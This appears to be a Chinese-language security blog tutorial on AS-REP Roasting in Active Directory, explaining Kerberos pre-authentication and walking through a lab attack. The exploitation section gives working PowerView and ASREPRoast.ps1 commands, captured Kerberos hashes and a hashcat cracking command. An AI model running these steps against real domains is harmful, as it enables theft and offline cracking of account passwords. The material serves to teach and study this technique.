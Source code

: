 ```yaml
---
title: AS-REP Roasting
date: 2020-12-31 23:59:54 +0800
categories: [域安全, TA0006凭据访问]
tags: [AS-REP Roasting, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

如果账户设置了`Do not require Kerberos preauthentication`，则在AS-REQ阶段就不需要用Client Master Key加密timestamp，用于KDC验证自身。因此，攻击者可以伪装成任意用户发出AS-REQ，而AES-REP中的Session Key是由Client Master Key加密的；一旦攻击者拿到AES-REP后便可暴力破解，如果能顺利解密说明破解成功。

![image-20201229101454378](/assets/img/image-20201229101454378.png)



**参考：**

[Roasting AS-REPs](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

[域渗透——AS-REPRoasting](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-AS-REPRoasting/)

[A Generalized Framework for Kerberos Pre-Authentication](https://tools.ietf.org/html/rfc6113#section-2.2)



## 0x01 AS-REP Roasting原理

Kerberos preauthentication的作用：

> https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication
>
> Kerberos Pre-Authentication is a concept within [Kerberos](https://ldapwiki.com/wiki/Kerberos).
>
> Kerberos Pre-Authentication is defined in [RFC 6113](https://ldapwiki.com/wiki/RFC 6113) and an [IANA Registry](https://ldapwiki.com/wiki/IANA Registry) for [Pre-authentication and Typed Data](https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#pre-authentication)
>
> Kerberos Pre-Authentication is a security feature which offers protection against [password-guessing](https://ldapwiki.com/wiki/Brute-Force) [attacks](https://ldapwiki.com/wiki/Attack). The AS request identifies the client to the [KDC](https://ldapwiki.com/wiki/KDC) in [Plaintext](https://ldapwiki.com/wiki/Plaintext). If Kerberos Pre-Authentication is enabled, a [Timestamp](https://ldapwiki.com/wiki/Timestamp) will be [encrypted](https://ldapwiki.com/wiki/Encrypted) using the user's [password](https://ldapwiki.com/wiki/Password) [hash](https://ldapwiki.com/wiki/Hash) as an [encryption](https://ldapwiki.com/wiki/Encryption) [key](https://ldapwiki.com/wiki/Key). If the [KDC](https://ldapwiki.com/wiki/KDC) reads a valid time when using the user's password hash, which is available in the [Microsoft Active Directory](https://ldapwiki.com/wiki/Microsoft Active Directory), to decrypt the [Timestamp](https://ldapwiki.com/wiki/Timestamp), the [KDC](https://ldapwiki.com/wiki/KDC) knows that request isn't a replay of a previous request.
>
> Without Kerberos Pre-Authentication a [malicious](https://ldapwiki.com/wiki/Malicious) [attacker](https://ldapwiki.com/wiki/Attacker) can directly send a dummy request for [authentication](https://ldapwiki.com/wiki/Authentication). The [KDC](https://ldapwiki.com/wiki/KDC) will return an [encrypted](https://ldapwiki.com/wiki/Encrypted) [TGT](https://ldapwiki.com/wiki/TGT) and the [attacker](https://ldapwiki.com/wiki/Attacker) can brute force it offline. Upon checking the [KDC](https://ldapwiki.com/wiki/KDC) logs, nothing will be seen except a single request for a [TGT](https://ldapwiki.com/wiki/TGT). When [Kerberos](https://ldapwiki.com/wiki/Kerberos) [timestamp](https://ldapwiki.com/wiki/Timestamp) Kerberos Pre-Authentication is enforced, the [attacker](https://ldapwiki.com/wiki/Attacker) cannot directly ask the [KDCs](https://ldapwiki.com/wiki/KDC) for the encrypted material to [Brute-Force](https://ldapwiki.com/wiki/Brute-Force) offline.



注意抓包前先用**KERBEROS::Purge** 清理所有Kerberos ticket，首先看一个带Pre-Authentication的流量，在第二个AS-REQ里，Client会发送密码Hash加密过的timestamp, KDC如果解密成功，即可验证Client。

 [ASExchange_WithPreau.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/ASExchange_WithPreau.pcapng) 

![image-20201229095230284](/assets/img/image-20201229095230284.png)



再看一个不带Pre-Authentication的流量，可以发现AS-REQ中没有entrypted timestamp字段，即不需要让KDC验证身份。

 [ASExchange_WithoutPreau.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/ASExchange_WithoutPreau.pcapng) 

![image-20201229095616210](/assets/img/image-20201229095616210.png)



对于关闭了Pre-Authentication的账户，攻击者可以在AS-REQ里仿冒成这些账户获取AS-REP，但还存在两个要解决的问题。

1. AS-REQ、AS-REP中都用指定的etype来加密数据，etype默认是AES256-CTS-HMAC-SHA1-96算法，该算法不如ARCFOUR-HMAC-MD5/RC4快。为了后面暴力破解更快，需要在AS-REQ时就直接指定etype。
2. 传输数据采用了ASN.1格式，.Net没有内置ASN.1的格式解析，最终作者使用的是[open source C# version](https://github.com/bcgit/bc-csharp) 



最终AS-REP Roasting流量如下：

 [AS-REPRoasting.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/AS-REPRoasting.pcapng) 

![image-20201229100542623](/assets/img/image-20201229100542623.png)





## 0x02 AS-REP Roasting利用

### [1. ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1)



#### 设置账户不需要Pre-Auth(需要Domain Admins权限)

```
// Powerview, 事后也是执行同样的命令Enable Pre-Auth
PS C:\Users\Administrator\Desktop> Set-DomainObject -Identity win10_2 -XOR @{userAccountControl=4194304} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=win10_2)(name=win10_2)(displayname=win10_2))))
VERBOSE: [Set-DomainObject] XORing 'userAccountControl' with '4194304' for object 'win10_2'
```





#### 查找不需要`Pre-Auth`的账户

```
// LDAP Filter
(userAccountControl:1.2.840.113556.1.4.803:=4194304)

// Powerview, Get-DomainUser -PreauthNotRequired
PS C:\Users\win10\Desktop> Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainUser] Searching for user accounts that do not require kerberos preauthenticate
VERBOSE: [Get-DomainUser] filter string:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))

distinguishedname
-----------------
CN=win10_2,CN=Users,DC=ring2,DC=com
```



#### 发送自己构造的AS-REQ

```
// ASREPRoast.ps1
PS C:\Users\win10\Desktop> Get-ASREPHash -UserName win10_2 -Domain ring2.com -Verbose
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356
$krb5asrep$win10_2@ring2.com:5f799d1ea6514c063501cf007e57413b$f9fd3ed74412ebd698ba4a6a158109da42eed6ae7bf2318160f7de6aaa9e9f60cbf45a98c781671a68483e0ba3fb44395b7248fbb53cb89871b357f81544b8b5a4097057507c5a8a48ee3ec9716fc6b6292bc683dc953b6b19e17d6d8f386998c0c78f543d665363ed12b36ee38b0107d21f49f49460dce935bed6005284cb2dc187008fb0f0233163ad4ae61b2a7caf977cdf4c9ebaee05591bfe90c5f4f56b4ef12d17200396469318810cf5c0c1976d316ada73e54a3eff8d0da01ac9cc4dac64d5c082f9cc521a090163a2c271072d2b78b998f9cc2f47f84bfd4d2d06f20f4a6bd61eb2
```



`Invoke-ASREPRoast`将发现和发送组合到了一起，可以直接调用。

```
PS C:\Users\win10\Desktop> Invoke-ASREPRoast -Verbose |Format-List
VERBOSE: [Invoke-ASREPRoast] DC server IP '192.168.240.142' resolved from passed -Domain parameter
VERBOSE: [Get-DomainSearcher] search string: LDAP://ringdc-pc.ring2.com/DC=ring2,DC=com
VERBOSE: [Invoke-ASREPRoast] LDAP filter:
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
VERBOSE: [Get-ASREPHash] DC server IP '192.168.240.142' resolved from passed -Server parameter
VERBOSE: [Get-ASREPHash] Bytes sent to '192.168.240.142': 157
VERBOSE: [Get-ASREPHash] Bytes received from '192.168.240.142': 1356


SamaccountName    : win10_2
DistinguishedName : CN=win10_2,CN=Users,DC=ring2,DC=com
Hash              : $krb5asrep$win10_2@ring2.com:f11aab49f586f1fcab53dcc60dbe8e0e$6b1622e1a82818fa83fc69aa96fee761d7efe
                    07474f76748336b1cd7ddb6fb3781763037b3bd61f2fb24f8410fceb256f093fdd4e46fa95b1a09a2bcf139329ecd5ce1e8
                    aeb8b119e7a80f1a6bbb875593a26a01dcdb83939b8a241d7380918a63bbf58fe0c4ab94d5c8c7dc6a0c173e65b3eadc672
                    c7094728c3ff6cafae1f5e10286d0a9afd9ae42fd38c87a4c1e0f21ca91d1f786ea98af39b07045c690785e127594d52615
                    93b5780563ae614bed15d9cc70eb127ec682ab072414a59e112fd415baad8e0bf0495673543924ff2ae99b903f37f2f49b5
                    0f02cff77592222a12bae5fdc38
```



#### 暴力破解

需要在$krb5asrep加上etype类型$23

```
hashcat -m 18200 '$krb5asrep$23$win10_2@ring2.com:9b93f475d1348bc80d8826e558f94e39$d335c24cb5343d505cd0fd59cadf290c3a2af20dbdad28f8671dd6d82ba760e2de0cc29b0b6bc222bd1833b5d6d8bb6c2b1d3b5203ecadc6d305a5597949d4d60ac9a286c214af6be85596a7054b3a50664d489ef3fe72c397bb67fcc90225acb10637357c1408752b5e10d492a752bf0dbd18ed09f0b19962186a49ab98d30935983cbc20133597bdca32c8a1a71e60b098cc47a511f5f1d6c309205b0f76cfce6a3167b1481b2ec868bf48bb99ec23b42b942867cd0952833eb71f733d305ab9f50cb88d76eafd95619a75977c7bcb52bb31e0331239c2faee1dfb0da84d902d882d9a642b' password.txt --force
```

![image-20201229102020908](/assets/img/image-20201229102020908.png)

